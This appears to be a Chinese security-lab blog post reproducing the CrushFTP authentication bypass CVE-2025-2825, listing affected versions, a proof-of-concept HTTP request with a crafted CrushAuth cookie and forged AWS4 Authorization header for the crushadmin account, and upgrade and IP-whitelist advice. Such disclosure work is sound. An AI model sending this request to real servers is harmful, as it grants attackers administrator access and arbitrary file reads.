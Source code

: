 #  【成功复现】CrushFTP身份认证绕过漏洞（CVE-2025-2825)   
 sec0nd安全   2025-04-27 14:05  
  
#   
  
网安引领时代，弥天点亮未来    
   
  
  
  
  
  
   
  
![Image](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
**0x00写在前面**  
  
**本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！**  
0x01漏洞介绍CrushFTP 是由 CrushFTP LLC 开发的文件传输服务器软件，它的主要用途是提供安全、可靠的文件传输服务。它允许用户通过多种协议（如FTP、SFTP、HTTP、WebDAV等）安全地上传、下载和管理文件。由于CrushFTP未对请求的标头进行严格的安全检查和限制，导致未经身份验证的攻击者可以通过发送带有特定标头的请求绕过认证机制来获取管理员权限，进而执行任意内置命令，或读取服务器上的任意文件。0x02影响版本  
10.0.0 <= CrushFTP <= 10.8.3  
  
11.0.0 <= CrushFTP <= 11.3.0  
  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hCl6sEVmUgK0O4Ukiao8qHtIXAIMn4tlQSulNk0c4tDicoO3xs1wVWh189Y3mqFylfgWbSia8OOOGHlw/640?wx_fmt=png&from=appmsg "")  
0x03漏洞复现  
1.访问漏洞环境  
  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hCl6sEVmUgK0O4Ukiao8qHtIFhekCu9pzReEd0VmEgVvCaFVC8KoAFLzfR5v3Gr8OZHv7pxG5UD1ibA/640?wx_fmt=png&from=appmsg "")  
2.对漏洞进行复现 POC 漏洞复现GET /WebInterface/function/?command=getUserList&serverGroup=MainUsers&c2f=3879 HTTP/1.1Cookie: CrushAuth=2144328282021_SNEoIvtuJjUcOklbhmfubKrFczvt3879; currentAuth=3879Host: 127.0.0.1Authorization: AWS4-HMAC-SHA256 Credential=crushadmin/      执行payload，通过响应判断漏洞存在。3.Yakit插件测试0x04修复建议目前厂商已发布升级补丁以修复漏洞，补丁获取链接：临时解决：公网部署需要添加限制，允许IP白名单访问。建议尽快升级修复漏洞，再次声明本文仅供学习使用，非法他用责任自负！https://www.crushftp.com/download.html弥天简介学海浩茫，予以风动，必降弥天之润！弥天安全实验室成立于2019年2月19日，主要研究安全防守溯源、威胁狩猎、漏洞复现、工具分享等不同领域。目前主要力量为民间白帽子，也是民间组织。主要以技术共享、交流等不断赋能自己，赋能安全圈，为网络安全发展贡献自己的微薄之力。口号 网安引领时代，弥天点亮未来 知识分享完了喜欢别忘了关注我们哦~学海浩茫，予以风动，必降弥天之润！   弥  天安全实验室  

